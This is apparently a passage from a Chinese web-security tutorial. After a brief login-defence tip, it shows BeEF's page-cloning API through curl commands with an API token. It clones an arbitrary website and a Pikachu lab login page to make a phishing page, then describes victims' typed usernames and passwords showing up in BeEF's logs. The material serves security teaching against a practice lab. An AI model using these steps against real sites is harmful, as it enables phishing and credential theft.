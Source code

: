 ![](http://img.wukaipeng.com/2023/1015-161323-image-20231015161323359.png)

> 🧐 如何防范？  
>
> - 单点登录。一个账号只允许一个 IP 登录
> - IP 记录。记录所有登录的 IP 地址。



### BeEF

👉 安装见：[02-MacOS M1M2 安装 Kali 和 BeEF 踩坑](https://wukaipeng.com/technique/net-security/07/02)

#### 克隆任意网站

```bash
➜  ~ curl -H "Content-Type: application/json; charset=UTF-8"  \
  -d '{"url": "https://wukaipeng.com/", "mount": "/is-wukaipeng"}' \
  -X POST \
http://192.168.64.4:3000/api/seng/clone_page\?token\=44738d265d43e98903df4f7b0821b4289dae1bc1
{"success":true,"mount":"/is-wukaipeng"}%
```

`-d` 中，`url` 是克隆的目标网站，`mount` 是克隆之后的地址

`POST` 的目标地址是 BeEF 的地址，token 来自与 API Key，见下图：

 ![](http://img.wukaipeng.com/2023/1016-212812-image-20231016212812263.png)

克隆之后的效果：

![](http://img.wukaipeng.com/2023/1016-212558-image-20231016212558649.png)

#### 克隆钓鱼网站并获取用户账号密码

克隆 Pikachu » Cross-Site Scripting » 反射型 XSS（post）页面：

```bash
curl -H "Content-Type: application/json; charset=UTF-8"  \
  -d '{"url": "http://175.178.126.31:8081/vul/xss/xsspost/post_login.php", "mount": "/pikachu"}' \
  -X POST \
http://192.168.64.4:3000/api/seng/clone_page?token=44738d265d43e98903df4f7b0821b4289dae1bc1
```

![](http://img.wukaipeng.com/2023/1016-213332-image-20231016213332776.png)

在 BeEF 后台可以看到已经有其他用户上线该网站了：

![](http://img.wukaipeng.com/2023/1016-213532-image-20231016213532316.png)

当用户输入账号密码后，我们也能通过 Logs 查看得到：

![](http://img.wukaipeng.com/2023/1016-213903-image-20231016213903055.png)



## 防御绕过
